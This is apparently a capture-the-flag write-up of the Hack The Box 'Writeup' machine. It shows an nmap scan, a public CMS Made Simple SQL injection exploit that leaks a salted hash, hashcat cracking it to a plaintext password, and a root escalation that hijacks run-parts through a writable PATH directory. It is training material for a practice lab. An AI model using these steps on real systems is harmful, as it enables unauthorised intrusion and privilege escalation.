






# HTB - Writeup

#### Ip: 10.129.134.255
#### Name: Writeup
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.10.138
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-04 15:30 CDT
Nmap scan report for 10.10.10.138
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 372e1468aeb9c2342b6ed992bcbfbd28 (ECDSA)
|_  256 93eaa84042c1a83385b35600621ca0ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.12 seconds
```

Checking out the page on port 80 it looks like a blog in the making, but doesn't yet contain any real content.



There is a note about DOS protection in place, so I'll hold off on directory fuzzing and Nikto for now.

Nmap catches that there is a robots.txt page listing `/writeup` as a disallowed entry.

Navigating to that page we find a couple of HTB writeups:


Using Wappalyzer we can see the site is running CMS Made Simple.

### Exploitation

Looking for public exploits I find: https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b

Lets give the exploit a shot:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ python cms_made_simple_sqli.py -u http://10.10.10.138/writeup/ 
```

Nice, the exploit was able to get jkr's password hash:



Lets add the hash and the salt to a file called jkr_hash and attempt to crack it:

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ cat >> jkr_hash
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashid jkr_hash                                    
--File 'jkr_hash'--
Analyzing '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807'
[+] MD5 
```

```
┌──(ryan㉿kali)-[~/HTB/Writeup]
└─$ hashcat jkr_hash /usr/share/wordlists/rockyou.txt -m 20
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```
Awesome, Hashcat was able to crack this for us: `jkr:raykayjay9`

From here we can SSH in and grab the user.txt flag:



### Privilege Escalation

Loading linpeas we see that we are able to write to `/usr/local/bin` and `/usr/local/games` which are also in our `$PATH`. This is definitely uncommon enough to warrant looking into.



Lets load up pspy64 and get it listening for processes and then SSH in again in a separate shell:



Interesting, it appears that once we SSH'd in, the root user issues a cronjob using `run-parts`, but luckily for us it does not use the absolute path. We should be able to hijack this by writing our own malicious run-parts file in `/usr/local/bin` and then it will execute as the root user when an SSH connection is opened. Lets try it:

```
jkr@writeup:/usr/local/bin$ echo "/bin/chmod 4755 /bin/bash" > /usr/local/bin/run-parts
jkr@writeup:/usr/local/bin$ chmod +x run-parts
<Start a new SSH session here>
jkr@writeup:/usr/local/bin$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
bash-4.4# hostname
writeup
```

Nice that worked! You can see above `run-parts` will SUID bit on bash (something only the root user could do), and when I started a new SSH session the root cronjob executed the script and I was able to drop into a root shell.



Thanks for following along!

-Ryan

-------------------------------------------------------------
